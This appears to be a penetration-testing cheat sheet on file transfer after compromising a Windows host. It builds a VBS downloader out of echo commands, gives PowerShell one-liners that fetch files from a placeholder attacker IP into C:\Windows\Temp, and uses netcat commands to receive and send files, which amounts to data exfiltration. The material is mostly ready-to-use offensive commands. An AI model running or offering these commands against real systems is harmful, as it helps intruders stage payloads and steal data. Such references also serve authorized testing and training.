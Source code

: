 #### VBS download files for Windows XP
Create vbs script
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Run VBS script to download file
```
cscript wget.vbs http://<IP>/<FILE> <FILE>
```

#### Powershell download file
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/<FILE>', '<FILE>')
```
```
powershell -c "Invoke-WebRequest -Uri 'http://<IP>/<FILE>' -OutFile 'C:\Windows\Temp\<FILE>'"
```

### Upload files
#### Netcat listener for file
```
nc -nlvp <PORT> > <FILE>
```

#### Netcat send file
```
nc -nv <IP> <PORT> <FILE>
```
